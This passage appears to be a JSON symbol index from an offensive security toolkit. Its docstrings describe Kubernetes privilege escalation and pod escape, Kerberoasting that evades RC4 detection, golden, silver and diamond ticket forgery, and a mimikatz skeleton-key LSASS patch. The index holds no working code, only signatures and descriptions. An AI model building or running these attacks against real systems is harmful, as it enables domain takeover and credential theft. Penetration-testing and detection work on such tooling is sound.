token: Service account token.\n    certificate_authority: CA certificate for verification.", "kind": "class", "line": 57, "name": "K8sConfig", "signature": "class K8sConfig"}, {"doc": "Execute Kubernetes privilege escalation and enumeration attacks.\n\nProvides RBAC enumeration, pod escape vectors, etcd exploitation,\nand service account token abuse across namespaces.\n\nAttributes:\n    config: K8sConfig with cluster and auth details.", "kind": "class", "line": 77, "name": "K8SAttackEngine", "signature": "class K8SAttackEngine"}, {"kind": "method", "line": 87, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Enumerate RBAC permissions for the current identity.\n\nMaps ClusterRoles, Roles, RoleBindings, and ClusterRoleBindings\nto identify privilege escalation paths.\n\nReturns:\n    Dict with RBAC enumeration commands and findings.", "kind": "method", "line": 90, "name": "enumerate_rbac", "signature": "def enumerate_rbac(self)"}, {"doc": "Plan a privileged pod escape.\n\nIf the user can create pods with privileged:true, hostPath mounts,\nhostPID, or hostNetwork, they can escape to the underlying node.\n\nReturns:\n    Dict with pod manifest and escape commands.", "kind": "method", "line": 118, "name": "privileged_pod_escape", "signature": "def privileged_pod_escape(self)"}, {"doc": "Steal service account tokens across namespaces for lateral movement.\n\nIf the attacker has list/get secrets access, they can extract\nservice account tokens from any namespace.\n\nReturns:\n    Dict with token theft techniques.", "kind": "method", "line": 173, "name": "service_account_token_theft", "signature": "def service_account_token_theft(self)"}, {"doc": "Exploit kubelet anonymous authentication.\n\nIf the kubelet has anonymous access enabled (--anonymous-auth=true),\nattackers can execute commands on pods and nodes directly.\n\nReturns:\n    Dict with kubelet exploitation commands.", "kind": "method", "line": 198, "name": "kubelet_anonymous_auth_abuse", "signature": "def kubelet_anonymous_auth_abuse(self)"}, {"doc": "Exploit etcd database access for complete cluster compromise.\n\netcd stores all Kubernetes objects including Secrets, ServiceAccount\ntokens, and certificates. Direct etcd access bypasses all RBAC.\n\nReturns:\n    Dict with etcd exploitation commands.", "kind": "method", "line": 222, "name": "etcd_access_exploitation", "signature": "def etcd_access_exploitation(self)"}, {"doc": "Abuse Helm (v2 Tiller or v3 RBAC) for privilege escalation.\n\nHelm v2's Tiller component runs with cluster-admin by default.\nHelm v3 uses the user's kubeconfig but still needs extensive RBAC.\n\nReturns:\n    Dict with Helm abuse techniques.", "kind": "method", "line": 250, "name": "helm_tiller_abuse", "signature": "def helm_tiller_abuse(self)"}, {"doc": "Kubernetes persistence techniques for long-term access.\n\nReturns:\n    Dict with persistence methods and their manifests.", "kind": "method", "line": 278, "name": "persistence_techniques", "signature": "def persistence_techniques(self)"}, {"kind": "method", "line": 318, "name": "summary", "signature": "def summary(self)"}]}, {"doc": "Advanced Kerberoasting — targeted SPN enumeration, AES-only attacks, hashcat integration.  Provides enhanced Kerberoasting capabilities beyond impacket GetNPUsers: targeted SPN list generation, AES-only Kerberoasting (avoids weak RC4 detection rules), automatic hashcat mode selection, and TGS-REP parsing for offline cracking optimization.  Integrates with KerberosCore for native ticket requests and hash extraction.", "id": "modules/kerberoasting.py", "kind": "module", "label": "kerberoasting.py", "language": "py", "sha256": "a481ae7f2bd32508", "symbol_count": 18, "symbols": [{"doc": "A kerberoastable service principal.\n\nAttributes:\n    sam_account_name: Service account sAMAccountName.\n    service_principal_name: SPN string.\n    password_last_set: When the password was last changed.\n    last_logon: Last interactive logon timestamp.\n    member_of: Group memberships (check for high-value groups).\n    supports_aes: Whether AES encryption was observed.", "kind": "class", "line": 38, "name": "KerberoastTarget", "signature": "class KerberoastTarget"}, {"doc": "Extracted Kerberoast hash ready for cracking.\n\nAttributes:\n    spn: Service principal name.\n    username: Service account name.\n    hash_string: Hash in Hashcat format (mode 13100/19600/19700).\n    etype: Encryption type used.\n    hashcat_mode: Hashcat mode number.\n    hashcat_command: Ready-to-use hashcat command.", "kind": "class", "line": 59, "name": "KerberoastHash", "signature": "class KerberoastHash"}, {"doc": "Advanced Kerberoasting — enumeration, ticket requesting, and hash extraction.\n\nPerforms targeted Kerberoasting by enumerating SPNs from Active Directory,\nrequesting TGS tickets with configurable encryption types, and extracting\nhashes in Hashcat/John-compatible formats for offline cracking.\n\nAttributes:\n    domain: Target domain FQDN.\n    dc_ip: Domain controller IP.\n    username: Authenticated domain user.\n    password: User password.\n    hash: User NT hash (alternative to password).\n    kerberos: Underlying KerberosCore instance.", "kind": "class", "line": 79, "name": "KerberoastingEngine", "signature": "class KerberoastingEngine"}, {"kind": "method", "line": 95, "name": "__init__", "signature": "def __init__(self, domain, dc_ip, username, password, hash)"}, {"doc": "Enumerate kerberoastable service principals.\n\nParses LDAP queries or BloodHound data to identify service accounts\nwith SPNs. Prioritizes high-value targets (Domain Admins, service\naccounts with weak passwords).\n\nArgs:\n    ldap_output: Raw LDAP search results text.\n    bloodhound_data: BloodHound user node dicts.\n\nReturns:\n    Sorted list of KerberoastTarget (high-value first).", "kind": "method", "line": 112, "name": "enumerate_spns", "signature": "def enumerate_spns(self, ldap_output, bloodhound_data)"}, {"kind": "method", "line": 169, "name": "_prioritize_targets", "signature": "def _prioritize_targets(self)"}, {"doc": "Request a TGS ticket using only AES encryption (evades RC4 detection).\n\nAES-only Kerberoasting avoids triggering detection rules that\nmonitor for RC4-HMAC ticket requests.\n\nArgs:\n    user_spn: Target service principal name.\n\nReturns:\n    KerberoastHash with AES256 hash, or None if request fails.", "kind": "method", "line": 187, "name": "request_tgs_aes_only", "signature": "def request_tgs_aes_only(self, user_spn)"}, {"doc": "Request a TGS ticket using RC4-HMAC (mode 13100 for Hashcat).\n\nArgs:\n    user_spn: Target service principal name.\n\nReturns:\n    KerberoastHash with RC4 hash.", "kind": "method", "line": 208, "name": "request_tgs_rc4", "signature": "def request_tgs_rc4(self, user_spn)"}, {"doc": "Request a TGS service ticket for kerberoasting.\n\nArgs:\n    user_spn: Service principal name (e.g. 'MSSQLSvc/db01.domain.local').\n    etype: Requested encryption type (23=RC4, 18=AES256, 17=AES128).\n\nReturns:\n    KerberoastHash with the extracted hash for offline cracking.", "kind": "method", "line": 219, "name": "request_tgs", "signature": "def request_tgs(self, user_spn, etype)"}, {"kind": "method", "line": 248, "name": "_build_hash_string", "signature": "def _build_hash_string(self, spn, etype)"}, {"kind": "method", "line": 268, "name": "_hashcat_command", "signature": "def _hashcat_command(hash_str, mode)"}, {"doc": "Perform targeted Kerberoasting on enumerated SPNs.\n\nRequests tickets for all discovered targets, prioritizing high-value\naccounts. Supports both AES-only and RC4 modes.\n\nArgs:\n    high_value_only: Only roast high-value targets (domain admins, etc.).\n\nReturns:\n    List of extracted KerberoastHash objects for cracking.", "kind": "method", "line": 271, "name": "targeted_kerberoast", "signature": "def targeted_kerberoast(self, high_value_only)"}, {"doc": "Check which users do NOT require Kerberos pre-authentication (AS-REP roastable).\n\nUsers without pre-auth can have their AS-REP encrypted with their\npassword hash, allowing offline cracking without any authentication.\n\nArgs:\n    usernames: List of usernames to check.\n\nReturns:\n    List of usernames that do not require pre-authentication.", "kind": "method", "line": 306, "name": "asreproast_check", "signature": "def asreproast_check(self, usernames)"}, {"doc": "Extract Kerberoast hashes from a PCAP/PCAPNG network capture.\n\nParses TGS-REP packets from network traffic to extract ticket\nhashes without performing active Kerberoasting.\n\nArgs:\n    pcap_path: Path to the PCAP file.\n\nReturns:\n    List of extracted KerberoastHash objects.", "kind": "method", "line": 321, "name": "extract_hashes_from_pcap", "signature": "def extract_hashes_from_pcap(self, pcap_path)"}, {"doc": "Analyze Windows Event Logs for signs of Kerberoasting attacks.\n\nEvent ID 4769 (service ticket request) with Ticket Encryption 0x17\n(RC4-HMAC) is a strong indicator of Kerberoasting.\n\nArgs:\n    event_log: Raw Windows security event log text.\n\nReturns:\n    Dict with detected indicators and risk assessment.", "kind": "method", "line": 336, "name": "detect_kerberoasting_activity", "signature": "def detect_kerberoasting_activity(self, event_log)"}, {"doc": "Build a batch file with all extracted hashes for Hashcat cracking.\n\nArgs:\n    output_path: File path to write the hash file.\n\nReturns:\n    Hashcat command for batch cracking.", "kind": "method", "line": 379, "name": "build_hashcat_batch", "signature": "def build_hashcat_batch(self, output_path)"}, {"doc": "Return a summary of kerberoasting operations.\n\nReturns:\n    Dict with target count, hash count, hashcat modes, and SPN list.", "kind": "method", "line": 401, "name": "summary", "signature": "def summary(self)"}, {"kind": "function", "line": 172, "name": "priority", "signature": "def priority(target)"}]}, {"doc": "Native Kerberos protocol library — AS-REQ, TGS-REQ, ticket parsing, encryption.  Provides a pure-Python Kerberos implementation for Active Directory attacks without depending on impacket or external tools. Implements the KDC message exchange protocol (AS-REQ/AS-REP, TGS-REQ/TGS-REP), ticket decryption with known keys, PAC parsing, and service ticket manipulation.  Requires pyasn1 and cryptography for ASN.1 handling and crypto operations.", "id": "modules/kerberos_core.py", "kind": "module", "label": "kerberos_core.py", "language": "py", "sha256": "5605dcbf832eb973", "symbol_count": 35, "symbols": [{"doc": "Kerberos principal name (user, service, or host).\n\nAttributes:\n    name: Principal name component (e.g. 'Administrator', 'cifs').\n    realm: Kerberos realm (domain name uppercase).\n    name_type: NT_PRINCIPAL (1), NT_SRV_INST (2), etc.", "kind": "class", "line": 139, "name": "KerberosPrincipal", "signature": "class KerberosPrincipal"}, {"doc": "Kerberos EncryptedData structure.\n\nAttributes:\n    etype: Encryption type.\n    kvno: Key version number.\n    cipher: Encrypted ciphertext bytes.", "kind": "class", "line": 157, "name": "EncryptedData", "signature": "class EncryptedData"}, {"doc": "Parsed Kerberos service ticket.\n\nAttributes:\n    tkt_vno: Ticket version number (5).\n    realm: Realm that issued the ticket.\n    sname: Service principal name.\n    flags: Ticket flags bitmask.\n    key: Session key encrypted data.\n    crealm: Client realm.\n    cname: Client principal name.\n    transited: Transited realms.\n    authtime: Authentication timestamp.\n    starttime: Validity start time.\n    endtime: Expiration time.\n    renew_till: Renewable until time.\n    authorization_data: PAC and other authz data.\n    enc_part: Encrypted portion of the ticket.", "kind": "class", "line": 172, "name": "KerberosTicket", "signature": "class KerberosTicket"}, {"doc": "PAC signature data for validation.\n\nAttributes:\n    type: Signature type (kdc, server, privilege server).\n    signature: Raw signature bytes.\n    rodc_identifier: RODC identifier if present.", "kind": "class", "line": 213, "name": "PACSignature", "signature": "class PACSignature"}, {"doc": "Parsed Privilege Attribute Certificate (PAC).\n\nAttributes:\n    logon_info: User SID, groups, domain info.\n    client_info: Client name and ID.\n    server_checksum: Server signature.\n    privsvr_checksum: Privilege server signature.\n    upn_dns_info: UPN and DNS info.\n    attributes: Extra PAC attributes.", "kind": "class", "line": 228, "name": "PACInfo", "signature": "class PACInfo"}, {"doc": "Parameters for a TGS-REQ service ticket request.\n\nAttributes:\n    target_service: Service name (e.g. 'cifs/DC01.domain.com').\n    realm: Domain realm.\n    tgt: Encrypted TGT ticket bytes.\n    session_key: TGT session key bytes.\n    etype: Requested encryption type.\n    additional_tickets: Additional tickets for S4U.\n    include_pac: Request PAC in the response.", "kind": "class", "line": 249, "name": "TGSRequest", "signature": "class TGSRequest"}, {"doc": "Kerberos cryptographic operations — key derivation, encryption, checksums.\n\nImplements RFC 3961 and RFC 3962 for AES encryption types.", "kind": "class", "line": 271, "name": "KerberosCrypto", "signature": "class KerberosCrypto"}, {"doc": "Native Kerberos protocol client for Active Directory operations.\n\nHandles AS-REQ/AS-REP for TGT retrieval, TGS-REQ/TGS-REP for service\ntickets, ticket parsing, and PAC extraction. Works standalone without\nimpacket — uses pyasn1 for DER encoding and cryptography for crypto.\n\nAttributes:\n    domain: Kerberos realm (domain uppercase).\n    dc_host: Domain controller hostname or IP.\n    dc_ip: Domain controller IP address.\n    crypto: KerberosCrypto instance for key operations.", "kind": "class", "line": 407, "name": "KerberosCore", "signature": "class KerberosCore"}, {"doc": "Parse KRB-ERROR messages from KDC responses.", "kind": "class", "line": 683, "name": "KerberosErrorParser", "signature": "class KerberosErrorParser"}, {"doc": "Validate Kerberos tickets — expiration, flags, PAC signatures.", "kind": "class", "line": 702, "name": "TicketValidator", "signature": "class TicketValidator"}, {"kind": "method", "line": 152, "name": "to_string", "signature": "def to_string(self)"}, {"kind": "method", "line": 207, "name": "has_flag", "signature": "def has_flag(self, flag_name)"}, {"kind": "method", "line": 277, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Derive an AES Kerberos key from a password using string-to-key.\n\nArgs:\n    password: User's plaintext password.\n    salt: Kerberos salt (realm + username).\n    etype: Encryption type (17 = AES128, 18 = AES256).\n\nReturns:\n    Derived key bytes.", "kind": "method", "line": 282, "name": "derive_aes_key", "signature": "def derive_aes_key(password, salt, etype)"}, {"doc": "Derive RC4-HMAC Kerberos key from password (hash = MD4(UTF16LE(password))).\n\nArgs:\n    password: Plaintext password.\n\nReturns:\n    16-byte RC4 key (NT hash).", "kind": "method", "line": 318, "name": "derive_rc4_key", "signature": "def derive_rc4_key(password)"}, {"doc": "AES encrypt with Kerberos ciphertext stealing (CTS) mode.\n\nArgs:\n    key: AES encryption key.\n    plaintext: Data to encrypt.\n    usage: Kerberos key usage number.\n\nReturns:\n    Encrypted ciphertext.", "kind": "method", "line": 329, "name": "aes_encrypt", "signature": "def aes_encrypt(self, key, plaintext, usage)"}, {"doc": "AES decrypt with Kerberos CTS mode.\n\nArgs:\n    key: AES decryption key.\n    ciphertext: Encrypted data.\n    usage: Key usage number.\n\nReturns:\n    Decrypted plaintext.", "kind": "method", "line": 361, "name": "aes_decrypt", "signature": "def aes_decrypt(self, key, ciphertext, usage)"}, {"doc": "Compute a Kerberos checksum using HMAC-SHA1-96-AES.\n\nArgs:\n    key: Checksum key.\n    data: Data to checksum.\n    etype: Encryption type.\n\nReturns:\n    Checksum bytes.", "kind": "method", "line": 389, "name": "compute_checksum", "signature": "def compute_checksum(key, data, etype)"}, {"kind": "method", "line": 421, "name": "__init__", "signature": "def __init__(self, domain, dc_host, dc_ip)"}, {"doc": "Return encryption types supported by this implementation.\n\nReturns:\n    List of etype integers.", "kind": "method", "line": 427, "name": "get_supported_etypes", "signature": "def get_supported_etypes(self)"}, {"doc": "Build an AS-REQ message for TGT retrieval.\n\nConstructs a KRB_AS_REQ with PA-ENC-TIMESTAMP pre-authentication\nusing the user's password-derived key.\n\nArgs:\n    username: SAM account name.\n    domain: Domain FQDN (use domain.realm).\n    password: User plaintext password.\n    etype: Encryption type (23=RC4, 18=AES256).\n\nReturns:\n    Dict with pvno, msg_type, padata, req_body, and derived_key.", "kind": "method", "line": 435, "name": "build_as_req", "signature": "def build_as_req(self, username, domain, password, etype)"}, {"doc": "Build a TGS-REQ message for service ticket retrieval.\n\nArgs:\n    params: TGSRequest with target service and TGT.\n\nReturns:\n    Dict with msg_type, padata, req_body, and authenticator.", "kind": "method", "line": 489, "name": "build_tgs_req", "signature": "def build_tgs_req(self, params)"}, {"doc": "Parse an AS-REP response and extract the TGT and session key.\n\nArgs:\n    as_rep_data: Raw AS-REP bytes from the KDC.\n    key: Pre-authentication key.\n    etype: Encryption type.\n\nReturns:\n    Dict with tgt, session_key, enc_part, flags, endtime.\n\nRaises:\n    ValueError: If decryption fails or error code present.", "kind": "method", "line": 534, "name": "parse_as_rep", "signature": "def parse_as_rep(self, as_rep_data, key, etype)"}, {"doc": "Parse a TGS-REP response and extract the service ticket.\n\nArgs:\n    tgs_rep_data: Raw TGS-REP bytes from the KDC.\n    session_key: TGT session key.\n    etype: Encryption type.\n\nReturns:\n    Dict with ticket, enc_part, service_session_key, pac.", "kind": "method", "line": 550, "name": "parse_tgs_rep", "signature": "def parse_tgs_rep(self, tgs_rep_data, session_key, etype)"}, {"doc": "Decrypt the encrypted portion of a Kerberos ticket.\n\nUsed for silver ticket forgery — requires the service account's\npassword hash or machine account hash.\n\nArgs:\n    ticket_data: Raw ticket bytes.\n    key: Service account key (NT hash or AES key).\n    etype: Encryption type.\n\nReturns:\n    Dict with decrypted ticket fields.", "kind": "method", "line": 563, "name": "decrypt_ticket", "signature": "def decrypt_ticket(self, ticket_data, key, etype)"}, {"doc": "Parse a Privilege Attribute Certificate (PAC) from decrypted auth data.\n\nArgs:\n    pac_data: Raw PAC bytes from the authorization data.\n\nReturns:\n    PACInfo with extracted PAC components.", "kind": "method", "line": 588, "name": "parse_pac", "signature": "def parse_pac(self, pac_data)"}, {"kind": "method", "line": 622, "name": "_parse_pac_buffer", "signature": "def _parse_pac_buffer(pac, buf_type, buf_data)"}, {"kind": "method", "line": 640, "name": "_build_pa_enc_timestamp", "signature": "def _build_pa_enc_timestamp(self, key, etype, timestamp)"}, {"kind": "method", "line": 653, "name": "_parse_kdc_rep", "signature": "def _parse_kdc_rep(self, data, key, etype, rep_type)"}, {"kind": "method", "line": 667, "name": "_rc4_encrypt", "signature": "def _rc4_encrypt(key, data, usage)"}, {"kind": "method", "line": 676, "name": "_rc4_decrypt", "signature": "def _rc4_decrypt(key, data, usage)"}, {"doc": "Extract error code, message, and client/server realm from a KRB-ERROR.\n\nArgs:\n    error_data: Raw KRB-ERROR bytes.\n\nReturns:\n    Dict with error_code, error_name, ctime, crealm, srealm, e_data.", "kind": "method", "line": 687, "name": "parse_error", "signature": "def parse_error(error_data)"}, {"doc": "Check if a ticket has expired.\n\nArgs:\n    endtime: Ticket endtime as unix timestamp.\n    grace_period: Grace period in seconds after expiration.\n\nReturns:\n    True if the ticket has expired.", "kind": "method", "line": 706, "name": "is_expired", "signature": "def is_expired(endtime, grace_period)"}, {"doc": "Check that a ticket has all required flags.\n\nArgs:\n    ticket: Parsed KerberosTicket.\n    required_flags: List of flag names that must be set.\n\nReturns:\n    True if all required flags are present.", "kind": "method", "line": 719, "name": "validate_flags", "signature": "def validate_flags(ticket, required_flags)"}, {"doc": "Validate PAC server and KDC checksums.\n\nArgs:\n    pac: Parsed PACInfo with checksum data.\n\nReturns:\n    True if checksums are present (structural validation only).", "kind": "method", "line": 735, "name": "validate_pac_checksums", "signature": "def validate_pac_checksums(pac)"}]}, {"doc": "Kerberos ticket forgery attacks — silver, golden, diamond, sapphire tickets.  Implements ticket forging techniques for persistence and privilege escalation in Active Directory environments. Requires the KerberosCore library.  Silver ticket: Forge a service ticket using the service account's NT hash. Golden ticket: Forge a TGT using the krbtgt account's NT hash. Diamond ticket: Golden ticket variant with forged PAC containing arbitrary group SIDs. Sapphire ticket: S4U2self-based ticket forgery for resource-based constrained delegation. Skeleton key: Patch LSASS to accept a master password for any account (via mimikatz wrapper).", "id": "modules/kerberos_tickets.py", "kind": "module", "label": "kerberos_tickets.py", "language": "py", "sha256": "d5320a02c1f152bc", "symbol_count": 34, "symbols": [{"doc": "Silver ticket forgery parameters.\n\nAttributes:\n    target_service: Service SPN (e.g. 'cifs/DC01.domain.local').\n    domain: Domain FQDN.\n    domain_sid: Domain SID (e.g. 'S-1-5-21-...').\n    username: Username to impersonate (default: Administrator).\n    user_rid: RID of the impersonated user (default: 500).\n    service_key_hex: NT hash of the service account in hex.\n    service_key_bytes: NT hash bytes (alternative to hex).\n    extra_sids: Additional group SIDs for the forged PAC.\n    etype: Encryption type (23=RC4, 18=AES256).\n    lifetime_hours: Ticket lifetime in hours.", "kind": "class", "line": 36, "name": "SilverTicketConfig", "signature": "class SilverTicketConfig"}, {"doc": "Golden ticket forgery parameters.\n\nAttributes:\n    domain: Domain FQDN.\n    domain_sid: Domain SID.\n    username: Username to impersonate (default: Administrator).\n    user_rid: RID of the impersonated user.\n    krbtgt_hash_hex: NT hash of krbtgt account in hex.\n    krbtgt_hash_bytes: NT hash bytes (alternative to hex).\n    krbtgt_aes_key_hex: AES256 key of krbtgt account in hex.\n    groups: Group RIDs to include in the PAC (default: 513, 512, 520, 518, 519).\n    etype: Encryption type.\n    lifetime_hours: Ticket lifetime in hours.", "kind": "class", "line": 65, "name": "GoldenTicketConfig", "signature": "class GoldenTicketConfig"}, {"doc": "Diamond ticket forgery parameters (PAC-enhanced golden ticket).\n\nBuilds on GoldenTicketConfig with additional PAC manipulation:\nthe forged PAC includes arbitrary group SIDs and the user is marked\nas a domain admin.\n\nAttributes:\n    domain: Domain FQDN.\n    domain_sid: Domain SID.\n    username: Target username.\n    user_rid: User RID.\n    krbtgt_hash_hex: krbtgt NT hash hex.\n    target_groups: RIDs to embed in the PAC.\n    extra_sids: Arbitrary extra SIDs to add.\n    etype: Encryption type.\n    lifetime_hours: Ticket lifetime.", "kind": "class", "line": 94, "name": "DiamondTicketConfig", "signature": "class DiamondTicketConfig"}, {"doc": "Forge service tickets (silver tickets) for lateral movement and persistence.\n\nSilver tickets allow authentication to a specific service without\ncontacting the domain controller. Requires the service account's NT hash.", "kind": "class", "line": 124, "name": "SilverTicketForger", "signature": "class SilverTicketForger"}, {"doc": "Forge TGTs (golden tickets) for full domain compromise persistence.\n\nGolden tickets provide Kerberos authentication to any service in the\ndomain without time or access restrictions. Requires the krbtgt hash.", "kind": "class", "line": 265, "name": "GoldenTicketForger", "signature": "class GoldenTicketForger"}, {"doc": "Forge diamond tickets with enhanced PAC manipulation.\n\nDiamond tickets extend golden tickets by embedding a properly\nconstructed PAC with privileged group SIDs, making the ticket\nappear legitimate to PAC validation.", "kind": "class", "line": 397, "name": "DiamondTicketForger", "signature": "class DiamondTicketForger"}, {"doc": "S4U2self-based ticket forgery for resource-based constrained delegation.\n\nSapphire tickets exploit RBCD by using S4U2self to obtain a service\nticket for any user to a service where RBCD is configured.", "kind": "class", "line": 462, "name": "SapphireTicketForger", "signature": "class SapphireTicketForger"}, {"doc": "Skeleton key attack — patch LSASS to accept a master password.\n\nAfter running mimikatz skeleton key, any domain user can authenticate\nwith the master password 'mimikatz'. This module provides operational\nwrappers for executing and detecting skeleton key attacks.", "kind": "class", "line": 567, "name": "SkeletonKeyInjector", "signature": "class SkeletonKeyInjector"}, {"kind": "method", "line": 131, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Forge a silver ticket for the specified service.\n\nArgs:\n    config: SilverTicketConfig with target service and keys.\n\nReturns:\n    Dict with raw_ticket bytes, kirbi data, and metadata.\n\nRaises:\n    ValueError: If required parameters are missing.", "kind": "method", "line": 134, "name": "forge", "signature": "def forge(self, config)"}, {"kind": "method", "line": 190, "name": "_resolve_key", "signature": "def _resolve_key(self, config)"}, {"kind": "method", "line": 200, "name": "_build_silver_pac", "signature": "def _build_silver_pac(self, config, start, end)"}, {"kind": "method", "line": 206, "name": "_build_enc_ticket_part", "signature": "def _build_enc_ticket_part(self, config, start, end, flags, key, etype)"}, {"kind": "method", "line": 225, "name": "_build_ticket_structure", "signature": "def _build_ticket_structure(self, config, flags, enc_part)"}, {"kind": "method", "line": 235, "name": "_build_kirbi", "signature": "def _build_kirbi(self, ticket, enc_part, etype)"}, {"kind": "method", "line": 244, "name": "_mimikatz_inject_command", "signature": "def _mimikatz_inject_command(self, config)"}, {"kind": "method", "line": 254, "name": "_impacket_command", "signature": "def _impacket_command(self, config)"}, {"kind": "method", "line": 272, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Forge a golden ticket TGT.\n\nArgs:\n    config: GoldenTicketConfig with krbtgt hash and domain info.\n\nReturns:\n    Dict with raw TGT, KIRBI format, and operational metadata.", "kind": "method", "line": 275, "name": "forge", "signature": "def forge(self, config)"}, {"kind": "method", "line": 324, "name": "_resolve_krbtgt_key", "signature": "def _resolve_krbtgt_key(self, config)"}, {"kind": "method", "line": 339, "name": "_build_golden_pac", "signature": "def _build_golden_pac(self, config)"}, {"kind": "method", "line": 346, "name": "_build_golden_enc_part", "signature": "def _build_golden_enc_part(self, config, start, end, flags, key)"}, {"kind": "method", "line": 368, "name": "_assemble_tgt", "signature": "def _assemble_tgt(self, config, flags, enc_part)"}, {"kind": "method", "line": 379, "name": "_mimikatz_command", "signature": "def _mimikatz_command(self, config)"}, {"kind": "method", "line": 388, "name": "_impacket_command", "signature": "def _impacket_command(self, config)"}, {"kind": "method", "line": 405, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Forge a diamond ticket with PAC enhancement.\n\nArgs:\n    config: DiamondTicketConfig with PAC manipulation parameters.\n\nReturns:\n    Dict with forged TGT data and operational notes.", "kind": "method", "line": 408, "name": "forge", "signature": "def forge(self, config)"}, {"kind": "method", "line": 446, "name": "_build_diamond_pac", "signature": "def _build_diamond_pac(self, config)"}, {"kind": "method", "line": 469, "name": "__init__", "signature": "def __init__(self, kerberos_core)"}, {"doc": "Generate a TGS-REQ for S4U2self service ticket.\n\nArgs:\n    tgt: TGT bytes.\n    session_key: TGT session key.\n    target_user: User to impersonate.\n    target_service: Target service SPN.\n    domain: Domain FQDN.\n\nReturns:\n    Dict with S4U2self TGS-REQ parameters.", "kind": "method", "line": 472, "name": "forge_s4u2self", "signature": "def forge_s4u2self(self, tgt, session_key, target_user, target_service, domain)"}, {"doc": "Generate exploit instructions for resource-based constrained delegation.\n\nArgs:\n    machine_account_hash: NT hash of a machine account with an SPN.\n    target_service: Target service to delegate to.\n    domain: Domain FQDN.\n    username: User to impersonate.\n\nReturns:\n    Dict with RBCD attack steps and commands.", "kind": "method", "line": 530, "name": "forge_rbcd", "signature": "def forge_rbcd(self, machine_account_hash, target_service, domain, username)"}, {"doc": "Check if skeleton key is active on a DC.\n\nAttempts authentication with the skeleton key master password.\n\nArgs:\n    target_host: Domain controller hostname.\n    domain: Domain FQDN.\n    dc_ip: DC IP address.\n\nReturns:\n    Dict with detection results.", "kind": "method", "line": 578, "name": "detect_skeleton_key", "signature": "def detect_skeleton_key(target_host, domain, dc_ip)"}, {"doc": "Generate mimikatz command for skeleton key injection on a DC.\n\nArgs:\n    target_host: Target domain controller.\n\nReturns:\n    mimikatz command string.", "kind": "method", "line": 600, "name": "inject_command", "signature": "def inject_command(target_host)"}, {"doc": "Generate LSASS restart command to remove skeleton key patch.\n\nReturns:\n    Command to restart LSASS (force DC reboot).", "kind": "method", "line": 612, "name": "cleanup_command", "signature": "def cleanup_command()"}]}, {"doc": "SVG / HTML kill-chain visualizer — generates standalone HTML with embedded SVG.  Reads ``modules.killchain.KillChain`` as the single source of truth.", "id": "modules/kill_chain_viz.py", "kind": "module", "label": "kill_chain_viz.py", "language": "py", "sha256": "c6a09fc745eb8a2d", "symbol_count": 5, "symbols": [{"doc": "Return a list of phase dicts suitable for SVG/HTML rendering.", "kind": "function", "line": 20, "name": "_load_phases", "signature": "def _load_phases(sessions)"}, {"kind": "function", "line": 27, "name": "_read_target", "signature": "def _read_target()"}, {"kind": "function", "line": 34, "name": "_build_svg", "signature": "def _build_svg(phases)"}, {"kind": "function", "line": 69, "name": "generate_html", "signature": "def generate_html(target, sessions)"}, {"kind": "function", "line": 102, "name": "generate_svg", "signature": "def generate_svg(target, sessions)"}]}, {"doc": "Unified kill-chain — single source of truth consumed by all surfaces.  This module is the canonical authority for kill-chain phases, progress derivation, phase mapping, and atomic updates. Every kill-chain display (CLI, Flask dashboard, GUI2, Textual TUI, tips engine, recommendation signals, MCP) imports from here. There is exactly one phase definition, one mapping table, and one update path.  Contracts: - ``KillChainConfig`` holds all definitions (phases, colors, labels, maps). - ``KillChain`` reads from the `WorldModel` singleton as the primary source and falls back to raw ``world_model.json`` keys for operator overrides. - ``KillChain.advance_phase()`` is the only function that writes ``current_phase`` / ``completed_phases`` / ``phase`` into the raw JSON. Every other module that needs to change the kill-chain phase must call this function.", "id": "modules/killchain.py", "kind": "module", "label": "killchain.py", "language": "py", "sha256": "8931db75d672309d", "symbol_count": 21, "symbols": [{"doc": "Centralised constants for the unified kill-chain.\n\nEvery colour, label, and mapping lives here. No magic values anywhere.", "kind": "class", "line": 38, "name": "KillChainConfig", "signature": "class KillChainConfig"}, {"doc": "Progress for a single kill-chain phase.", "kind": "class", "line": 136, "name": "PhaseStatus", "signature": "class PhaseStatus"}, {"doc": "Unified kill-chain operations consumed by every display surface.\n\nAll methods are static or classmethods so no instantiation is needed.\nThe `WorldModel` singleton is read as the primary source; raw JSON\nkeys in ``world_model.json`` provide operator overrides.", "kind": "class", "line": 145, "name": "KillChain", "signature": "class KillChain"}, {"doc": "Return the ``KillChain`` class as a module-level entry point.", "kind": "function", "line": 440, "name": "get_killchain", "signature": "def get_killchain()"}, {"doc": "Return the resolved path to world_model.json.", "kind": "method", "line": 116, "name": "world_model_path", "signature": "def world_model_path(self)"}, {"doc": "Return the positional index of a canonical phase in the kill chain.", "kind": "method", "line": 120, "name": "phase_index", "signature": "def phase_index(self, phase)"}, {"doc": "Return True when ``phase`` is a recognised canonical phase.", "kind": "method", "line": 127, "name": "is_valid_phase", "signature": "def is_valid_phase(self, phase)"}, {"doc": "Return the centralised configuration.", "kind": "method", "line": 154, "name": "config", "signature": "def config()"}, {"doc": "Return the canonical 8-phase tuple.", "kind": "method", "line": 159, "name": "phases", "signature": "def phases()"}, {"doc": "Return the canonical phase label mapping.", "kind": "method", "line": 164, "name": "phase_labels", "signature": "def phase_labels()"}, {"doc": "Return the canonical phase hex-color mapping.", "kind": "method", "line": 169, "name": "phase_colors", "signature": "def phase_colors()"}, {"doc": "Return the canonical phase rich-terminal color mapping.", "kind": "method", "line": 174, "name": "phase_rich_colors", "signature": "def phase_rich_colors()"}, {"doc": "Map a ``WorldModel.EngagementPhase`` value to the CLI phase key.\n\nArgs:\n    engagement_value: An ``EngagementPhase`` value string.\n\nReturns:\n    The corresponding CLI phase or ``\"recon\"`` as the safe default.", "kind": "method", "line": 179, "name": "engagement_phase_to_cli", "signature": "def engagement_phase_to_cli(engagement_value)"}, {"doc": "Map a CLI phase to a ``WorldModel.HostState`` value.\n\nArgs:\n    phase: A canonical CLI phase key.\n\nReturns:\n    The corresponding ``HostState.value``, or empty string when no\n    state advancement is warranted.", "kind": "method", "line": 191, "name": "cli_phase_to_host_state", "signature": "def cli_phase_to_host_state(phase)"}, {"doc": "Derive the current kill-chain phase.\n\nResolution order:\n1. ``WorldModel.get_phase()`` (derived from host states).\n2. Raw ``world_model.json`` ``current_phase`` key (operator 